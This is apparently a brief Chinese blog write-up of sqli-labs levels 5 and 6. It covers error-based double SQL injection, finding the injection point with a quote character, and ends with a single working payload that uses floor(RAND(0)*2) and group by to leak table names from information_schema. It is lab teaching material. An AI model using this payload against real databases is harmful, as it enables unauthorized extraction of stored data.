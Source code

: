 ```yaml
---
layout: post
title: sqli-labs Lesson-5-6 双重注入
subtitle: 
date: 2020-01-04
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
---
```




## preface

这篇文章是 sqli-labs 的第五和第六关题解，都涉及到了基于报错的双重注入



## 开始做题



先按部就班吧，我们先找注入点，输入 `'` 后报错，根据报错信息确定了可能存在字符型注入







' union select 1, count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 1,1),'-',floor(RAND(0)*2))a from information_schema.tables group by a--+